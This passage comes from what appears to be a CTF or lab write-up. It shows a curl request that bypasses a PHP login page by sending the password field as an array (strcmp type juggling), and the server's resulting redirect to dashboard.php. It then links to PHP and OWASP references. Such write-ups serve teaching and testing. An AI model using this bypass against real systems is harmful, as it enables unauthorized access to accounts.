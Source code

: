 The following curl command will get us the same: 

```
curl -i -s -k -X  POST -b 'PHPSESSID=u4jrbtublanh7khbhdluqhc3e3' --data-binary 'email=liam%40lunar.local&password[]=' http://$target/login.php


HTTP/1.1 302 Found
Date: Wed, 10 Aug 2022 19:48:23 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: dashboard.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Now that we've successfully bypassed the login page, we'll see what vulns we can find in `dashboard.php` . 

Which, I'll post about in the next post. 


* * * * 

If this post was helpful for you please feel free to reach out, or consider buying me a coffee. 

Thanks!

<script type="text/javascript" src="https://cdnjs.buymeacoffee.com/1.0.0/button.prod.min.js" data-name="bmc-button" data-slug="displayerror" data-color="#FFDD00" data-emoji="" data-font="Cookie" data-text="Buy me a coffee" data-outline-color="#000000" data-font-color="#000000" data-coffee-color="#ffffff" ></script>





[phpdocs]: https://www.php.net/manual/en/function.strcmp.php
[php-owasp-talk]: https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf